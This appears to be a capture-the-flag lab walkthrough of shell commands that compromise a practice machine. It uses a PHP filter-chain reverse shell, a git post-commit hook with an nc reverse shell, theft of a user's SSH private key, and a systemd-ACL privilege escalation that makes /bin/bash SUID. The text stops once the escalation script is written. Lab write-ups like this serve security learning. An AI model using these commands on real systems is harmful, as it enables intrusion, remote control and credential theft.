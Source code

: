 ```shell
# with a listener started on another terminal, generate the chain and execute the script
python3 ./php_filter_chain_generator/php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.112/9007 0>&1 \""); ?>' | grep -E '^php:\/\/filter\/.*php:\/\/temp$' | xargs -I {} python3 attk.py {}

# upgrade to a full tty
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=xterm-256color; stty rows 38 columns 116; reset;

# view the rights on specified directory or file
getfacl -t .git
#--snip--#
# file: .git
USER   svc       rwx     
user   www-data  rwx     
GROUP  svc       r-x     
mask             rwx     
other            r-x

# create a git post commit hook with a reverse shell content having start a listener on 9008
printf '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.112 9008 >/tmp/f' > .git/hooks/post-commit
chmod +x .git/hooks/post-commit
touch /tmp/file
/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/tmp/ add /tmp/file
sudo -u svc /var/www/image/scripts/git-commit.sh

# with the svc user shell grab the ssh key and properly login into the box from attacker's machine
cat ~/.ssh/id_rsa
nano svc_key
chmod 400 svc_key
ssh -i svc_key svc@10.10.11.198
```

#### Escalation
```shell
sudo -l           # check this user's right
#--snip--#
User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *

# run the command
sudo /usr/bin/systemctl restart *
#--snip--#
Failed to restart user.txt.service: Unit user.txt.service not found.

ls -ld /etc/systemd/system/    # has extended permission
#--snip--#
drwxrwxr-x+ 22 root root 4096 Apr 25 20:06 /etc/systemd/system/

getfacl -t /etc/systemd/system
#--snip--#
# file: etc/systemd/system
USER   root      rwx     
user   svc       -wx     
GROUP  root      rwx     
mask             rwx     
other            r-x 

# craft an escalation script
printf '#!/bin/bash \nchmod +s /bin/bash' > /tmp/attack
chmod +x /tmp/attack
```